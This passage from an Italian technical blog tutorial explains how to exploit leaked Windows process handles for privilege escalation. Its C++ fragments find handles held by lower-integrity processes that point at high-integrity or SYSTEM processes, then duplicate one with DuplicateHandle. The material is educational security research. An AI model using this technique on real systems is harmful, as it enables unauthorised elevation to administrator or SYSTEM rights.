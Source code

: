 ```c++
        auto handlePidPair = mHandleId.find(foundHandle);
        auto handlePid = handlePidPair->second;
        auto handleIntegrityLevel = GetTargetIntegrityLevel(handlePid);
        if (
            handleIntegrityLevel != 0 &&
            handleIntegrityLevel >= SECURITY_MANDATORY_HIGH_RID // the integrity level of the target must be >= High
            )
        {
            vSysHandle.push_back(sysHandle); // save the interesting SYSTEM_HANDLE
        }
    }  
}
```
  
In questo blocco di codice iniziamo con il definire un `std::vector` chiamato `vSysHandle` che conterrà tutti i `SYSTEM_HANDLE` interessanti. Successivamente chiamiamo `NtQuerySystemInformation` e iteriamo sui dati ritornati dalla funzione, solo che questa volta saltiamo gli handle detenuti dal nostro processo per focalizzarci su quelli degli altri processi. Per ognuno di questi processi controlliamo il livello di integrità con la funzione `GetTargetIntegrityLevel`, una funzione di supporto che ho scritto e riadattato da una serie di PoC online e di funzioni disponibili su MSDN. Tale funzione ritorna una `DWORD` contenente il livello di integrità del token associato al PID su cui è chiamata.

Una volta recuperato il livello di integrità del processo che detiene l'handle, ci assicuriamo sia minore di `SECURITY_MANDATORY_HIGH_RID`, poiché siamo interessati solo ai processi a media e bassa integrità, e ci assicuriamo inoltre che il `SYSTEM_HANDLE` si riferisca a risorse di tipo processo (`0x7`). Smarcato anche questo, procediamo a controllare il livello di accesso. Se questo non è `PROCESS_ALL_ACCESS` o non contiene nemmeno una delle flag di cui abbiamo parlato prima, lo saltiamo. Viceversa, proseguiamo e controlliamo il livello di integrità del processo puntato dal `SYSTEM_HANDLE`. Se è ad alta integrità o (meglio ancora) SYSTEM, lo salviamo dentro il vettore `vSysHandle`.

Questo è quanto, auspicabilmente abbiamo il nostro vettore pieno (o semi vuoto) di handle vulnerabili, vediamo come exploitarli.

### Gaining the upper hand(le) - questa va bene così e non la traduco :P
Abbiamo separato gli aghi dalla paglia, e mò? Nuovamente, il [blogpost di dronesec](http://dronesec.pw/blog/2019/08/22/exploiting-leaked-process-and-thread-handles/) dettaglia cosa può essere fatto con ogni diverso livello di accesso, ma per ora concentriamoci su quello più semplice: `PROCESS_ALL_ACCESS`.

Prima di tutto iniziamo con l'agganciarci al processo che detiene l'handle vulnerabile e procediamo a clonare l'handle in questione.

```c++
DWORD ownerPid = SysHandle.ProcessId;
HANDLE elevatedToken = NULL;
auto hOwner = OpenProcess(PROCESS_DUP_HANDLE, false, ownerPid);
HANDLE clonedHandle;
auto success = DuplicateHandle(hOwner, (HANDLE)sysHandle.Handle, GetCurrentProcess(), &clonedHandle, NULL, false, DUPLICATE_SAME_ACCESS);
```
